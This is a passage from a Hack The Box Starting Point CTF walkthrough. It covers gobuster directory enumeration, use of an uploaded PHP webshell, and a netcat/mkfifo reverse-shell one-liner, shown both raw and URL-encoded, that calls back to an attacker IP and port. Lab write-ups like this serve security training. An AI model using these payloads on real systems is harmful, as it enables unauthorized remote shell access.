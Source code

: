 8. However, we don't know where the file is uploaded, let's use **gobuster** to enum the directory

   ```bash
   gobuster dir -u <TARGET_IP> -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
   ```

   ![](../assets/img/htb-starting-point/28.png)

   We are interested to the **/uploads** files, let's just try http://10.129.61.3/uploads/shell.php?cmd=id

   ![](../assets/img/htb-starting-point/29.png)

   The shell.php is inside the **/uploads** directory, and we already got a webshell!

9. Now prepare a reverse shell on the url, it need to be **url encoded** to make it works

   ```bash
   rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <TUN0_IP> <Port> >/tmp/f
   ```

   ```
   http://10.129.61.3/uploads/shell.php?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2%3E%261|nc+10.10.15.117+1337+%3E/tmp/f
   ```

   We can execute our command through the **Burp repeater**, and encoded in URL by **Ctrl+U**
